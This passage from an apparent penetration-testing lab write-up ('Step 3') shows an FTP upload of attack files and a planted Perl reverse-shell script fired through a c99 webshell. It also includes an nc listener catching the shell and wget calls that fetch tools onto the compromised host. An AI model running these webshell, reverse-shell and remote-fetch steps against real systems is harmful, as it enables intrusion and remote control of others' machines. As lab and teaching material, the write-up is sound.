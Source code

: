 **Step 3** : upload the files

I basically uploaded both files (corelanc0d3r and reis.py) to 192.168.6.70 (via ftp, put them in c:\\surgemail\\www). Next, I downloaded them from my os shell onto the “ghost” machine using some simple wget calls.

```
root@krypt2:/vpn/70# ftp -inv 192.168.6.70 < ftpcmd 
Connected to 192.168.6.70.
220-Complete FTP server
220 FTP Server v 3.3.0
331 Password required for devil
230 User devil logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
250 Directory changed to "/MyDocuments/......".
250 Directory changed to "/MyDocuments/....../......".
250 Directory changed to "/MyDocuments/....../....../......".
250 Directory changed to "/MyDocuments/....../....../....../......".
250 Directory changed to "/MyDocuments/....../....../....../....../surgemail".
250 Directory changed to "/MyDocuments/....../....../....../....../surgemail/www".
200 Type set to I
local: corelanc0d3r remote: corelanc0d3r
200 PORT command successful.
150 Opening BINARY mode data connection for corelanc0d3r
226 Transfer complete.
9125 bytes sent in 0.40 secs
local: reis.py remote: reis.py
200 PORT command successful.
150 Opening BINARY mode data connection for reis.py
226 Transfer complete.
1801 bytes sent in 0.37 secs
221 Goodbye.
```

I already had planted the corelanshell.pl script on 192.168.6.70, so I issued the following command using the c99 webshell :

```
perl /var/lock/corelanshell.pl 192.168.6.114 4455
```

Reverse connection accepted, ready to get the 2 files and put them on the server

```
root@krypt2:/vpn/70# nc -lp 4455

:: Depth :: Connect Back Shell ::
cd /apachelogs
mkdir data
cd data
wget http://192.168.6.70/corelanc0d3r
wget http://192.168.6.70/reis.py
```
